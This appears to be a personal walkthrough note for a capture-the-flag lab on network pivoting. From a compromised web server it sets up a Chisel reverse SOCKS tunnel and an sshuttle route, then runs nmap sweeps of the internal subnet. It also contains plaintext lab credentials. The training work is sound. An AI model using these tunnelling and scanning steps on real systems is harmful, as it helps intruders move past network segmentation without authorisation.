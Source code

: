 Now that you have gained root access to L-SRV01, you need to identify where to go next. You know there are no other external machines in scope, so you decide to move into the internal network. To gain access to the internal subnet, you need to perform what is known as pivoting.

In a well-maintained network, often referred to as a "Segmented Network," there are specific rules in place preventing users from accessing certain parts of the Internal LAN (ex. The Workstation Subnet should not be able to access the Server Subnet). We will need to "pivot" from an already compromised server using a SOCKs server or other means like port forwarding to access different network resources.  

There are several tools outlined below that can help us in pivoting.  

- sshuttle
- Chisel
- Ligolo
- Metasploit autoroute

In this task, we will be focusing on both Chisel and sshuttle, each offering unique ways to approach pivoting.  

## Chisel

The first tool that we will be looking at is Chisel. From the Chisel GitHub, *"Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable, including both client and server. Written in Go (Golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network."*  

From the Chisel GitHub, below is an overview of chisel architecture.

![[Task 23 - Digging a tunnel to nowhere-20240926150119258.webp]]

To begin using Chisel, we must first download the tool. If you utilize the stable release or docker, you will not need to download any dependencies. If you compile from source, you will need to install a few dependencies outlined on their GitHub. There are three common ways of obtaining the tool, outlined below.  

- Stable release: [](https://github.com/jpillora/chisel/releases)[https://github.com/jpillora/chisel/releases](https://github.com/jpillora/chisel/releases)
- Docker: `docker run --rm -it jpillora/chisel --help`
- Source: `go get -v [github.com/jpillora/chisel](<http://github.com/jpillora/chisel>)`

To set up the Chisel server on a Windows machine, you will need to get the Windows binary and vice versa.  

To create a SOCKs server with Chisel, you will only need two commands ran on the target and the attacking machine, outlined below.  

On the attacking machine: `./chisel server -p 8000 --reverse`

On the target machine: `./chisel client <SERVER IP>:8000 R:socks`

Now that we have a SOCKs server set up, we need to interpret and manage these connections. This is where proxychains come in. Proxychains allows us to connect to the SOCKs server and route traffic through the proxy in the command line. To add the SOCKs server to proxychains, you will need to edit `/etc/proxychains.conf`. You can see an example configuration below.

![[Task 23 - Digging a tunnel to nowhere-20240926150205470.webp]]

You will need to add the following line to the configuration file: `socks5 127.0.0.1 1080`

To use the proxy, you will need to prepend any commands you want to route through the proxy with proxychains. An example usage can be found below.  

Example usage: `proxychains curl http://<IP>`



## sshuttle
The second tool we will be looking at is sshuttle. Sshuttle is unique in its approaches to pivoting because all of its techniques are done remotely from the attacking machine and do not require the configuration of proxychains. However, a few of the disadvantages of sshuttle are that <u>it will only work if there is an ssh server running on the machine</u>, and it <u>will not work on Windows hosts</u>. You can download sshuttle from GitHub, [https://github.com/sshuttle/sshuttle](https://github.com/sshuttle/sshuttle)  

Using sshuttle is relatively easy and only requires one command. For sshuttle to work, you only need to specify one parameter, -r . With this parameter, you will specify the user and target like you would for a standard ssh connection. You will also need to specify the CIDR range of the network; this does not require a parameter. Find an example of syntax below.  

Syntax: `sshuttle -r USER@MACHINE_IP 0.0.0.0/0`

For more information about sshuttle and how to use it, check out the documentation, [https://sshuttle.readthedocs.io/en/stable/overview.html](https://sshuttle.readthedocs.io/en/stable/overview.html).


---

# Your job

Before you can pivot, you do need to know where you are in the network and where you are trying to get to.
Creating a Network Diagram is the best way to do it.

![[Diagram.svg]]

The above diagram shows the route: 
- You went via a docker container and back to the host that had the 4 websites right back at the start. 
- Then you got root on that via docker.
- You added a SSH key so you now have direct access to that box via SSH as either the **root** user or the **linux-admin** user with the cracked password.
- Looking at y your THM dashboard, two new IP have appeared, which are 10.200.X.30 and 10.200.X.31. 
- You cannot ping this from your host, so instead you will have to pivot through the webserver (L-SRV01) host to gain access to it.

## Pivoting with chisel

- SSH to L-SRV01 with the following credentials:
	User: `linux_admin`
	Password: `linuxrulez`
	`ssh linux_admin@10.200.X.33`
or
- [[Task 21 - From the Shadows#SSH to the victim machine with a key]]

- On the attacking machine: `./chisel server -p 8000 --reverse`

- On the target machine: `./chisel client <SERVER IP>:8000 R:socks`

## Pivoting with sshuttle


> [!Note]
The command requires a few bits of information, these include: 
The username and address of your pivot target.
A keyfile if you are using a key pair (which you are).
The subnet you want to gain access too and you need to remove the IP you are connecting too, otherwise everything gets very confused. This translates to:
`sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET -x <IP>`


- Run on the attacking machine the following command:
	`sshuttle -r root@admin.holo.live --ssh-cmd "ssh -i /home/kali/.ssh/id_rsa" 10.200.X.0/24 -x 10.200.X.33`
	![[Task 23 - Digging a tunnel to nowhere-20241008134113133.webp]]

- On another terminal connect via SSH.
	`ssh root@admin.holo.live -i /home/kali/.ssh/id_rsa` 

- Run nmap against the target 10.200.X.31.
	root@ip-10-200-95-33:~# `nmap 10.200.X.31 -Pn`
	
	![[Task 23 - Digging a tunnel to nowhere-20241008140800233.webp]]

- Look at the internal network.
	root@ip-10-200-95-33:~# `nmap 10.200.X.0/24 -Pn`
	
	![[Task 23 - Digging a tunnel to nowhere-20241008141821503.webp]]
	
You've found the following 5 hosts available:

	- 10.200.95.30
    - 10.200.95.31
    - 10.200.95.32
    - 10.200.95.33
    - 10.200.95.35


**Next step:** [[Task 24 - Command your Foes and Control your Friends]]